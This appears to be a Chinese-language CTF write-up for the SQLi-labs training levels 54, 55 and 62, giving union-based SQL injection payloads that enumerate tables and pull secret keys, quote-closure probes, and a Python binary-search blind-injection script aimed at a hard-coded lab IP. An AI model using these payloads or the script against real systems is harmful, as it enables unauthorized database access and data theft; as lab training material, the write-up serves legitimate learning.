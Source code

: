 ```yaml
---
title: SQLi-labs Challenges
tags:
  - SQLi
  - Writeup
  - CTF
date: 2019-05-26 09:17:00
---
```




## Less 54 



Description: GET / challenge / Union / 10 queries allowed / Variation 1

![](/assets/images/move/1558833874853-dba3a71f-fbdb-4ae6-bf64-d6bbb7f496a2.png)

要求从challenges数据库中获取secret_key，限制了查询次数为10。

```sql
#1.判断闭合方式 -> 单引号闭合
id=1' or '1'='1
#2.获取表名 -> PSYFDRBQFS
union select 1,group_concat(table_name),3 from information_schema.tables \
where table_schema='challenges'#
#3.获取字段名 -> id,sessid,secret_HOGR,tryy
union select 1,group_concat(column_name),3 from information_schema.columns \ 
where table_name='PSYFDRBQFS'#
#4.获取secret字段 -> YsqNLf4769SUGQm7HDdyNjRP
union select 1,group_concat(secret_HOGR),3 from PSYFDRBQFS#
```



## Less 55

Description: GET / challenge / Union / 14 queries allowed / Variation 2

1.判断闭合方式

```bash
id=1' --+
id=1" --+
id=1 --+
id=1) --+ //correct
id=1') --+
id=1") --+
```

2.常规查询

```bash
#1.table_name -> A8OVY3542N
-1) union select 1,group_concat(table_name),3 from information_schema.tables \
where table_schema='challenges'--+
#2.column_name -> secret_XXQ0
-1) union select 1,group_concat(column_name),3 from information_schema.columns \
where table_name='A8OVY3542N'--+
# secret_key -> tDKqoseQXitElBSv7SsW3XLv
-1) union select 1,group_concat(secret_XXQ0),3 from A8OVY3542N--+
```



Less 56-61基本上都是闭合方式上的区别，常见的闭合方式有`'`、`"`、`)`、`')`、`")`、`'))`等。



## Less 62

Description: GET / challenge / Blind / 130 queries allowed / variation 1

经探测闭合方式为单引号`')`，限制查询次数为130的盲注，这里使用二分法进行注入。(130次不够，逃~



```python
# -*- coding: utf-8 -*-
import time
import requests
from urllib.parse import quote_plus

main_url = 'http://43.247.91.228:84/Less-62/?id='

correct = 'Your Login name : Angelina'

# payload
table_name_ = '1\') and ascii(substr((select group_concat(table_name) '\
    'from information_schema.tables where table_schema=\'challenges\'),%d,1))%s%d#'



def check(query_string):
    url = main_url + quote_plus(query_string)
    html = requests.get(url)
    if correct in html.text:
        return True
    else:
        return False

def search(payload):
    print('[*]' + payload)
    result = ''
    print('[~]', end = '')
    for i in range(1, 100):
        left = 33
        right = 127
        #binary search
        while left <= right:
            mid = (left + right) // 2
            s = payload % (i, '=', mid)
            if check(s):
                result += chr(mid)
                print(chr(mid), end = '')
                break
            else:
                s = payload % (i, '>', mid)
                if check(s):
                    left = mid + 1
                else:
                    right = mid - 1
        if left > right:
            break
    print()
    return result

if __name__=="__main__":
    table_name = search(table_name_)
```

剩余关卡主要区别也就在于闭合方式的不同，不多赘述，整体把SQLi-labs刷下来感觉没有预期的那么难，很关卡也只是同种类型做了微小的改变(如闭合方式)，都是一些基础题目，适合新手入门学习~